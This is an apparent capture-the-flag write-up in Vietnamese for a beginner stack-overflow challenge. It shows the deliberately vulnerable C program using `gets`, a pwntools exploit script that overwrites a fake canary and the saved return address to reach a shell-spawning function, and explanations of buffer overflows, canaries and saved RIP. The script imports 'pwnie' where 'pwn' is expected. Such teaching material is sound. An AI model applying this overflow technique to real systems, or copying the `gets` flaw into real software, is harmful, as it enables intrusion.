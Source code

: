 ```yaml
---
title: Pwwn - I-love-birds
---
```


## Solution

```c
#include <stdio.h>
#include <stdlib.h>

void gadget() {
    asm("push $0x69;pop %rdi");
}


void win(int secret) {
    if (secret == 0xA1B2C3D4) {
        system("/bin/sh");
    }
}

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);

    unsigned int canary = 0xDEADBEEF;

    char buf[64];

    puts("I made a canary to stop buffer overflows. Prove me wrong!");
    gets(buf); // Buffer Overflow

    if (canary != 0xDEADBEEF) {
        puts("No stack smashing for you!");
        exit(1);
    }

    return 0;
}
```

Chương trình có một lỗi `Buffer Overflow` ở hàm `gets(buf)`, ta có thể ghi đè lên biến `canary` để qua được kiểm tra và gọi hàm `win()` thông qua việc ghi đè saved RIP của hàm main.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from subprocess import check_output
from time import sleep

context.log_level = 'debug'
context.terminal = ["wt.exe", "-w", "0", "split-pane", "--size", "0.65", "-d", ".", "wsl.exe", "-d", "Ubuntu-22.04", "--", "bash", "-c"]
exe = context.binary = ELF('./birds', checksec=False)
libc = exe.libc

gdbscript = '''
init-pwndbg
b *0x40125D
c
'''

def start(argv=[]):
    if args.GDB:
        p = process([exe.path] + argv, aslr=False)
        gdb.attach(p, gdbscript=gdbscript)
        pause()
        return p
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2])
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(0.5)
        pid = int(check_output(["pidof", "-s", "/app/run"]))
        gdb.attach(int(pid), gdbscript=gdbscript+f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe", exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv)


# ==================== EXPLOIT ====================
p = start()

canary = 0xDEADBEEF

sl(b'A'*0x48 + b'B'*4 + p32(canary) + p64(0) + p64(0x4011dc))

interactive()
```


- Buffer Overflow là một lỗi bảo mật xảy ra khi một chương trình cố gắng ghi dữ liệu vào một vùng bộ nhớ mà không kiểm tra kích thước của dữ liệu đó, dẫn đến việc ghi đè lên các vùng bộ nhớ khác. Trong trường hợp này, hàm `gets(buf)` không kiểm tra kích thước của chuỗi nhập vào, cho phép kẻ tấn công ghi đè lên các biến khác trong stack, bao gồm cả biến `canary` và địa chỉ trả về của hàm.

- Stack Canary là một kỹ thuật bảo mật được sử dụng để phát hiện và ngăn chặn các cuộc tấn công tràn bộ đệm (buffer overflow). Nó hoạt động bằng cách đặt một giá trị đặc biệt (canary) vào vùng bộ nhớ ngay trước địa chỉ trả về của hàm. Nếu giá trị này bị thay đổi, chương trình sẽ nhận ra rằng có một cuộc tấn công đã xảy ra và sẽ dừng thực thi. Ở đây, ta có thể thấy rằng giá trị canary được đặt là `0xDEADBEEF`, và nếu giá trị này bị thay đổi, chương trình sẽ dừng lại và không cho phép thực thi hàm `win()`. Stack Canary sẽ tuỳ vào kiến trúc mà có số byte khác nhau, ví dụ như trên x86-64 sẽ là 8 byte, trong khi trên x86 sẽ là 4 byte. Lưu ý rằng giá trị canary ở challenge này là giá trị tượng trưng, chứ không phải là giá trị canary thực tế. Trên thực tế canary đã được tắt trong lúc compile.

```sh
-----------------
| ...           |
-----------------
| Stack Canary  |
-----------------
| Saved RBP     |
-----------------
| Saved RIP     |
-----------------
```

- Saved RIP (Return Instruction Pointer) là một thanh ghi trong kiến trúc x86-64, nó lưu địa chỉ của lệnh tiếp theo sẽ được thực thi sau khi hàm hiện tại kết thúc. Khi xảy ra tràn bộ đệm, kẻ tấn công có thể ghi đè lên giá trị này để điều khiển luồng thực thi của chương trình, ví dụ như chuyển đến một hàm khác mà kẻ tấn công muốn thực thi.
